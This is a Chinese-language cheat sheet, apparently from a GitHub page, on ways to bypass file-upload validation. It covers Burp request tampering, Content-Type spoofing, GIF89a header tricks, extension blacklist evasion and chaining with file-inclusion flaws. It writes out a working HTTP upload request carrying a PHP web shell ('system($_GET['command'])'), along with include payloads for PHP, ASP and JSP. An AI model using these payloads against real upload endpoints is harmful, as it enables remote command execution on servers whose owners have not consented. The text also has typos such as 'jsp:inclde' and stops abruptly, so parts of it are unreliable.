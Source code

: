 <hr>
### 文件上传绕过校验姿势
* 客户端绕过（抓包改包）
* 服务端绕过
	* 文件类型
	* 文件头
	* 文件后缀名
* 配合文件包含漏洞绕过
* 配合服务器解析漏洞绕过
* CMS、编辑器漏洞绕过
* 配合操作系统文件命名规则绕过
* 配合其他规则绕过
* WAF绕过

#### 1.客户端绕过
　　可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。
#### 2.服务端绕过
##### 2.1 文件类型绕过
　　我们可以通过抓包，将content-type字段改为image/gif
```bash
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
<?php system($_GET['command']);?>
--xYzZY-
```
##### 2.2 文件头绕过
　　在木马内容基础上再加了一些文件信息，有点像下面的结构
GIF89a<?php phpinfo(); ?>
##### 2.3 文件后缀名绕过
前提：黑名单校验
黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
绕过方法：
（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类
能被解析的文件扩展名列表：
jsp  jspx  jspf
asp  asa  cer  aspx
php  php  php3  php4
exe  exee

#### 3.配合文件包含漏洞
前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。
绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；
（2）然后再上传一个.php的文件，内容为<?php Include("上传的txt文件路径");?>
此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：
```bash
#PHP    
<?php Include("上传的txt文件路径");?> 
#ASP    
<!--#include file="上传的txt文件路径" -->
#JSP    
<jsp:inclde page="上传的txt文件路径"/>
or  
```